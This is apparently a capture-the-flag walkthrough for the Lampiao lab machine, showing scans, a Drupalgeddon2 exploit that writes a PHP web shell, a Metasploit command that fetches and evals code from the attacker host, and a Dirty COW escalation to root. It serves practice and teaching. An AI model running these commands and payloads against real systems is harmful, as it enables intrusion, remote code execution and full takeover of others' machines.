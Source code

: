 1. First thing to do is to fire up nmap against lampaio VM (you can use options -sV -O -A for more enumeration)

# nmap -p 192.168.95.133

Starting Nmap 7.60 ( https://nmap.org ) at 2018-08-01 22:15 CEST
Nmap scan report for 192.168.95.133
Host is up (0.0027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
1898/tcp open  cymtec-port
MAC Address: 00:0C:29:79:C2:8B (VMware)

2. The port 80 is open, I immediately run dirb in order to find some intersting URIs.

# dirb http://192.168.95.133/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Aug  1 21:48:14 2018
URL_BASE: http://192.168.95.133/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.95.133/ ----
                                                                               
(!) FATAL: Too many errors connecting to host
    (Possible cause: COULDNT CONNECT)
                                                                               
-----------------
END_TIME: Wed Aug  1 21:48:15 2018
DOWNLOADED: 0 - FOUND: 0

No result was found. So, i tried to see what is running on port 1898 using the web browser. There is a web application accessible through the same port.

3. I lunched droopescan to look for more information about the version of drupal used as CMS (you can also dig in drupal files accessible via the URIs given by robots.txt file).

# droopescan scan drupal -u http://192.168.95.133:1898/
[+] Themes found:                                                               
    seven http://192.168.95.133:1898/themes/seven/
    garland http://192.168.95.133:1898/themes/garland/

[+] Possible interesting urls found:
    Default changelog file - http://192.168.95.133:1898/CHANGELOG.txt

[+] Possible version(s):
    7.54

[+] Plugins found:
    image http://192.168.95.133:1898/modules/image/
    profile http://192.168.95.133:1898/modules/profile/
    php http://192.168.95.133:1898/modules/php/

[+] Scan finished (0:00:24.141079 elapsed)

Applications devloped with drupal, prior to 7.58, is vulnerable to CVE-2018-7600 which allow a remote attacker to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations. 
The links below contain the exploit scripts of this vulnerability: 

 ** https://www.exploit-db.com/exploits/44449/
 ** https://github.com/dreadlocked/Drupalgeddon2


4. However, I run the following script in order to exploit this vulnerability : 
# ./drupalgeddon2.rb http://192.168.95.133:1898/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.95.133:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.95.133:1898/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid,
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo JHRDDPDU
[+] Result : JHRDDPDU
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.95.133:1898/s.php)
[!] Response: HTTP 200 // Size: 6.   Something could already be there?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.95.133:1898/s.php' -d 'c=hostname'
lampiao>> 

The shell given is limited, for instance, you cannot change the current directory. Meanwhile, the web shell uploaded during the exploit is accessible the  http://192.168.95.133:1898/s.php?c="command".

5. Next, I used metasploit to get meterpreter session like the following :

msf > use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) > set target 1
target => 1
msf exploit(multi/script/web_delivery) > set payload php/meterpreter/reverse_tcppayload => php/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 192.168.95.137
lhost => 192.168.95.137
msf exploit(multi/script/web_delivery) > set srvport 8081
srvport => 8081
msf exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.95.137:4444 
[*] Using URL: http://0.0.0.0:8081/Lg6qmARaJT9B
[*] Local IP: http://192.168.95.137:8081/Lg6qmARaJT9B
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.95.137:8081/Lg6qmARaJT9B'));"

6. A meterpreter session with low privilege poped out after passing the php command generated into c paramater of the web shell. Then, we uploaded and executed LinEnum.sh and linux-exploit-suggester.sh scripts in order to get root privilege as shown below:

[*] Starting interaction with 1...

meterpreter > upload /root/Tools/privexec/LinEnum/LinEnum.sh
[*] uploading  : /root/Tools/privexec/LinEnum/LinEnum.sh -> LinEnum.sh
[*] uploaded   : /root/Tools/privexec/LinEnum/LinEnum.sh -> LinEnum.sh
meterpreter > upload /root/Tools/privexec/linux-exploit-suggester/linux-exploit-suggester.sh
[*] uploading  : /root/Tools/privexec/linux-exploit-suggester/linux-exploit-suggester.sh -> linux-exploit-suggester.sh
[*] uploaded   : /root/Tools/privexec/linux-exploit-suggester/linux-exploit-suggester.sh -> linux-exploit-suggester.sh
meterpreter > shell 
Process 26353 created.
Channel 4 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@lampiao:/var/www/html$ chmod 755 linux-exploit-suggester.sh
chmod 755 linux-exploit-suggester.sh
www-data@lampiao:/var/www/html$ chmod 755 LinEnum.sh
chmod 755 LinEnum.sh
www-data@lampiao:/var/www/html$ 

****** Don't forget to change the permissions.

7. Therefore, the results of the 2 scripts executed show that the OS is vulnerable dirty cow.  For this purpose, I used the first and third script from the following link https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs in order to check this vulnerability and gain the root access : 

meterpreter > shell
Process 30263 created.
Channel 6 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@lampiao:/var/www/html$ echo "Dirty cow" > /tmp/foo      
echo "Dirty cow" > /tmp/foo
www-data@lampiao:/var/www/html$ chmod 0404 /tmp/foo
chmod 0404 /tmp/foo
www-data@lampiao:/var/www/html$ gcc -pthread dirtyc0w.c -o dirtyc0w
gcc -pthread dirtyc0w.c -o dirtyc0w
www-data@lampiao:/var/www/html$ ./dirtc0w /tmp/foo Hi....
./dirtc0w /tmp/foo Hi....
bash: ./dirtc0w: No such file or directory
www-data@lampiao:/var/www/html$ ./dirtyc0w /tmp/foo Hi....
./dirtyc0w /tmp/foo Hi....
mmap b7752000

madvise 0

procselfmem 600000000

www-data@lampiao:/var/www/html$ cat /tmp/foo
cat /tmp/foo
Hi....cow //The OS is vulnerable to dirty cow
www-data@lampiao:/var/www/html$ gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread
www-data@lampiao:/var/www/html$ gcc -Wall -o dirtycow-mem dirtycow-mem.c -ldl -lpthread                
dirtycow-mem.c: In function 'get_range':
dirtycow-mem.c:139:3: warning: use of assignment suppression and length modifier together in gnu_scanf format [-Wformat=]
   sscanf(line, "%lx-%lx %s %*Lx %*x:%*x %*Lu %s", start, end, flags, filename);
   ^
dirtycow-mem.c:139:3: warning: use of assignment suppression and length modifier together in gnu_scanf format [-Wformat=]
www-data@lampiao:/var/www/html$ ./dirtycow-mem
./dirtycow-mem
[*] range: b75ed000-b7798000]
[*] getuid = b76a6110
[*] mmap 0xb743d000
[*] exploiting (patch)
[*] patched (procselfmemThread)
[*] patched (madviseThread)
root@lampiao:/var/www/html# [*] exploiting (unpatch)
[*] unpatched: uid=33 (procselfmemThread)
[*] unpatched: uid=33 (madviseThread)

uid=0(root) gid=0(root) groups=0(root)
root@lampiao:/var/www/html# cat /root/flag.txt
cat /root/flag.txt
9740616875908d91ddcdaa8aea3af366
root@lampiao:/var/www/html# 

The system will crash after few minutes... no worries, there's no harm just reboot the machine.

Happy hunting....

